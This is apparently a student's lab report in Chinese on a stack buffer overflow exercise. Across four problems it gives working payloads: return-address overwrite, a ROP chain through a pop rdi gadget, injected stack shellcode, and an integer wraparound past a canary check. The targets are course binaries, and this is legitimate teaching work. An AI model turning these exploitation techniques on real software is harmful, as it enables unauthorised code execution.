

# 栈溢出攻击实验报告

## 题目解决思路

### Problem 1:

* **分析**：

1. **汇编逻辑分析**：汇编代码中注意到 `func` 函数 (`0x401232`)，它申请了 `0x20` 字节的栈空间，然后调用了 `strcpy` 将用户输入复制到栈上。指令：`lea -0x8(%rbp), %rax`说明目标缓冲区的起始地址位于 `rbp-0x8`。

2. **攻击方式**：
   由于调用了 `strcpy` 将用户输入复制到栈上，我们可以输入超过 8 字节的数据，填充字符直到覆盖到 Return Address，然后将其修改为函数 `func1` 的地址 (`0x401216`)。


* **解决方案**：

```python
payload1 = b"A" * 16 + b"\x16\x12\x40\x00\x00\x00\x00\x00" 
with open("ans1.txt", "wb") as f:
    f.write(payload1)
print("Payload written to ans1.txt")
```

* **结果**：




### Problem 2: 

* **分析**：

1. **汇编逻辑分析**： `func` (`0x401290`)，使用了 `memcpy`，而目标函数是 `func2` (`0x401216`)
   但在 `func2` 开头有指令：`cmpl $0x3f8, -0x4(%rbp)`，它会检查第一个参数（`%edi`）是否等于 `0x3f8` (1016)

   单纯跳转到 `func2` 会因为参数校验失败而退出，我们需要控制 `%rdi` 寄存器（x86-64 的第一个参数寄存器）
   我们在 `0x4012bb` 处发现了 `pop_rdi` 函数，其核心指令是 `5f c3` (`pop %rdi; ret`)，地址为 `0x4012c7`。

2. **攻击输入**：

* **Padding**: 16 字节 (到达 Return Address)。
* `0x4012c7` (执行 `pop rdi`, 从栈顶取值放入寄存器)。
* `0x3f8` (即 1016，作为参数被 pop 进去)。
* **RA**:`0x401216` (跳转到 `func2`，此时寄存器已满足条件)。


* **解决方案**：

```python
payload2 = b"A"*16 + b"\xc7\x12\x40\x00\x00\x00\x00\x00" + b"\xf8\x03\x00\x00\x00\x00\x00\x00" + b"\x16\x12\x40\x00\x00\x00\x00\x00"
with open("ans2.txt", "wb") as f:
    f.write(payload2)
print("Payload written to ans2.txt")
```

* **结果**：


### Problem 3: 

* **分析**：

1. **汇编逻辑分析**：目标函数 `func1` 要求 `%rdi` 等于 `0x72` (114)。
   题目提供了一个特殊的辅助函数 `jmp_xs` (`0x401334`)，它的汇编逻辑是读取全局变量 `saved_rsp`，加上偏移量后跳转。经过计算，它会直接跳转回我们栈缓冲区的起始位置 (`rbp-0x20`)。
2. **攻击方式**：这是一道允许在栈上执行代码的题目。我们需要编写一段机器码 (Shellcode)，其功能是“赋值 `%rdi` 并调用 `func1`”，将这段代码放在缓冲区里，然后把返回地址覆盖为 `jmp_xs`。
3. **目标汇编代码**：

```assembly
push $0x72      ; 将 114 入栈
pop %rdi        ; 弹入 rdi
push $0x401216  ; 将 func1 地址入栈
ret             ; 相当于 jump 0x401216

```


对应的机器码：`6a 72 5f 68 16 12 40 00 c3` (共 9 字节)。

4. **攻击输入**：

* 缓冲区位置：`rbp-0x20` (32 字节)。
* 覆盖目标：Return Address (在 32 + 8 = 40 字节之后)。
* **Payload 结构**：`Shellcode (9B)` + `Padding (31B)` + `jmp_xs地址`。


* **解决方案**：

```python
payload3 = b"\x6a\x72\x5f\x68\x16\x12\x40\x00\xc3" + b"A"*31 + b"\x34\x13\x40\x00\x00\x00\x00\x00"
with open("ans3.txt", "wb") as f:
    f.write(payload3)
print("Payload written to ans3.txt")
```

* **结果**：


### Problem 4: 

* **分析**：

1. **保护机制分析 (Canary)**：
   反汇编 `func` 函数显示：`mov %fs:0x28, %rax` (读取 Canary) ... `call __stack_chk_fail` (检查 Canary)。
   这是一种栈保护机制：在返回地址之前插入一个随机值，函数返回前检查该值是否被修改。因此，传统的缓冲区溢出（覆盖返回地址）会导致程序报错退出，攻击无效。
2. **汇编逻辑漏洞分析**：

* `13df`: 检查 `rbp-0xc` 是否等于 `-1` (`0xffffffff`)。
* `13d9`: 检查 `rbp-0x18` 是否等于 `1`。
  如果满足，则调用目标函数。
  代码中有一个循环：`subl $0x1, -0x18(%rbp)`。


3. **攻击方式 (整数溢出)**：
   `rbp-0xc` 和 `rbp-0x18` 初始值都是用户输入的数字。如果我们输入 `-1`：

* 条件 B (`rbp-0xc == -1`) 满足。
* `rbp-0x18` 计算过程：`(-1) - (MAX_UINT)`。由于整数溢出（Underflow/Wraparound），结果恰好等于 `1`。
* 条件 A (`rbp-0x18 == 1`) 满足。


* **解决方案**：

```text
-1
```


* **结果**：


---

## 思考与总结

无，太累了不想总结了

## 参考资料

* ppt
* 教材